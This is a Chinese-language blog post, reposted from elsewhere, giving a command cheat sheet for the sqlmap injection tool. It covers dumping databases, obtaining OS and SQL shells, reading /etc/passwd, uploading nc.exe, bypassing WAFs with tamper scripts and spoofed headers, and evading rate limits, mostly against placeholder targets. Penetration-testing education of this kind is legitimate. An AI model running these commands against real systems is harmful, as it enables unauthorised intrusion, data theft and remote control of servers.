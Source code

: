 ```yaml
---
layout: post
title: "[转]【tools】SQLMAP注入工具手册"
description: ""
category: 
tags: [sql]
---
```


转自:<http://sh4dow.lofter.com/post/395c80_121497d>

# 基本的注入步骤：

    sqlmap -u "http://url/news?id=1" --dbs           #查询所有数据库
    sqlmap -u "http://url/news?id=1" --current-db          #获取当前数据库名
    sqlmap -u "http://url/news?id=1" --current-user        #获取当前用户名
    sqlmap -u "http://url/news?id=1" -D "db_name" --tables    #获取表名
    sqlmap -u "http://url/news?id=1" -D "db_name" -T "table_name"  --columns #获取列名
    sqlmap -u "http://url/news?id=1"  -D "db_name" -T "table_name" -C "column_name" --dump  #获取字段内容

注入请求选项使用：

    sqlmap -u "http://url/news?id=1"               #get注入
    sqlmap -u "http://url/news" --date "id=1"        #post注入
    sqlmap -u "http://url/news" --cookie "id=1"      #cookie注入

# 结合BurpSuite拦截的POST表单注入：

浏览器打开目标地址 http://testasp.vulnweb.com/Login.asp

配置burp代理(127.0.0.1:8080)以拦截请求

点击login表单的submit按钮

如下图，这时候Burp会拦截到了我们的登录POST请求

![](/assets/imgs/2015-08-18-01.jpg)

5. 把这个post请求复制为txt, 我这命名为search-test.txt 然后把它放至sqlmap目录下

6. 运行sqlmap并使用如下命令：./sqlmap.py -r search-test.txt -p tfUPass，这里参数 -r 是让sqlmap加载我们的post请求rsearch-test.txt，而-p 大家应该比较熟悉，指定注入用的参数。

# POST登陆框注入：

    sqlmap -u http://testasp.vulnweb.com/Login.asp  --forms     #除了截包还可以用forms选项进行自动搜索表单
    sqlmap -u http://testasp.vulnweb.com/Login.asp  --date "tfUName=123$tfUPass=456" #POST的表单参数注入

# 应对伪静态指定注入点：

    sqlmap -u "http://url/news/1*.html" --dbs       #在*插入SQL注入语句查询数据库
    sqlmap -u "http://url/news/1*/html" --dbs       #在*插入SQL注入语句查询数据库


# 指定系统及数据库：

    sqlmap -u "http://url/news?id=1" --dbms PostgreSQL        #指定数据库
    sqlmap -u "http://url/news?id=1"  --os linux           #指定数据库服务器系统

# 命令执行及交互shell：

    sqlmap -u "http://url/news?id=1" --os-cmd=ipconfig     #执行ipconfig系统命令
    sqlmap -u "http://url/news?id=1" --os-shell            #写交互shell
    sqlmap -u "http://url/news?id=1"  --sql-query "show databases;"    #执行SQL语句          
    sqlmap -u "http://url/news?id=1"  --sql-shell            #返回SQLshell

# 文件操作：

    sqlmap -u "http://url/news?id=1"  --file-read  /etc/passwd    #读取系统文件
    sqlmap -u "http://url/news?id=1"  --file-write "C:/WINDOWS/Temp/nc.exe" --file-dest "/software/nc.exe" 

查看payload及注入语句：

    sqlmap -u "http://url/news?id=1"  -v 3   

#-v 0、只显示python错误以及严重的信息；

1、同时显示基本信息和警告信息；（默认）

2、同时显示debug信息；

3、同时显示注入的payload；

4、同时显示HTTP请求；

5、同时显示HTTP响应头；

6、同时显示HTTP响应页面。

    sqlmap -u "http://url/news?id=1"  --proxy "http://127.0.0.1:8080" #配置burp代理(127.0.0.1:8080)以拦截请求注入语句

# 测试等级对HTTP头注入利用：

    sqlmap -u "http://url/news?id=1" --level 3    #--level参数来进行不同全面性的测试，默认为1，不同的参数影响了使用哪些payload，2时会进行cookie注入检测，3时会进行useragent检测

![](/assets/imgs/2015-08-18-02.jpg)

# 风险等级：

--risk   #共有三个风险等级，默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，3会增加OR语句的SQL注入测试。

# 盲注添加payload语句前缀与后缀绕过WAF：

    sqlmap -u "http://url/news?id=1" -p id --suffix=" -- " --prefix=")"    #相当于http://url/news?id=1）order by 10 -- 

# 编码绕过WAF：

    sqlmap -u "http://url/news?id=1" -v 3 --dbs --tamper "space2morehash.py"  #用tamper选择编码表绕过WAF注入，更多见ramper目录

# 伪装http头绕过工具识别：

    sqlmap -u "http://url/news?id=1" --referer "http://www.baidu.com"    #从百度域超链接访问的
    sqlmap -u "http://url/news?id=1" --user-agent="Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)" #设置浏览器信息
    sqlmap -u "http://url/news?id=1"  --mobile                 #伪装成智能手机，设定一个手机的User-Agent来模仿手机登陆

# 绕过HTTP请求限制：

    sqlmap -u "http://url/news?id=1"  --delay 2    #延迟时间为2秒，绕过请求频繁被防火墙拦截
    sqlmap -u "http://url/news?id=1"  --safe-url       #每隔一段时间去访问一个正常的页面，绕过多次错误访问后屏蔽请求
    sqlmap -u "http://url/news?id=1"  --safe-freq    #每次测试请求之后都再访问一遍安全连接，绕过多次错误访问后屏蔽请求

# 绕过URL参数值编码：

    sqlmap -u "http://url/news?id=1" --skip-urlencode   #关闭url编码，使web服务器接受url值

# 从文本中获取多个目标检测：

www.target1.com/vuln1.php?q=foobar

www.target2.com/vuln2.asp?id=1

www.target3.com/vuln3/id/1*               

    sqlmap -m  url.txt                       #将url格式保存到文件，sqlmap会逐一检测

# 启发式判断注入：

    sqlmap -u "http://url/news?id=1"  --batch --smart  #默认智能判断注入
